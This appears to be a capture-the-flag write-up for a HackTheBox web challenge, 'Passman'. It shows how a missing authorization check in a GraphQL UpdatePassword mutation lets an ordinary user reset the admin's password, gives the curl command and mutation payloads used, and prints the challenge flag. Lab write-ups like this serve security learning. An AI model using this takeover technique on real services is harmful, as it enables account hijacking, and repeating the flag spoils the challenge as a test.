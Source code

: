 # Web 04 - Passman

The solution is to log inside the app as normal user and change the password for the admin.

There are no checks in the code about it, so it is possible.

curl command for testing

```
curl -H "Content-Type: application/json" --request POST --data '<payload>' http://167.172.50.208:32288/graphql
```

```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```

### graphql request format

Login

```
{"query":"mutation($username: String!, $password: String!) { LoginUser(username: $username, password: $password) { message, token } }","variables":{"username":"test","password":"test"}}
```

AddPhrase

```
{"query":"mutation($recType: String!, $recAddr: String!, $recUser: String!, $recPass: String!, $recNote: String!) { AddPhrase(recType: $recType, recAddr: $recAddr, recUser: $recUser, recPass: $recPass, recNote: $recNote) { message } }","variables":{"recType":"Web","recAddr":"a","recUser":"a","recPass":"a","recNote":"a"}}
```

UpdatePassword (like Login)

```
{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"test","password":"test"}}
```
